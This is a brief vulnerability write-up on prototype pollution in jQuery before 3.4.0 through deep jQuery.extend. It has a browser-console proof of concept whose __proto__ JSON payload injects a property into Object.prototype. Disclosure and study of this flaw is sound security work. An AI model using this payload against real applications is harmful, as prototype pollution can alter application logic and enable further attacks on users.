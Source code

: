 # Description

jQuery before 3.4.0, as used in Drupal, Backdrop CMS, and other products, mishandles jQuery.extend(true, {}, ...) because of Object.prototype pollution. If an unsanitized source object contained an enumerable __proto__ property, it could extend the native Object.prototype.

# POC

```
console

var jquery = document.createElement('script');
jquery.src = 'https://code.jquery.com/jquery-3.3.1.min.js';

let exp = $.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'));
console.log({}.exploit); 

```

# show  version

$.fn.jquery
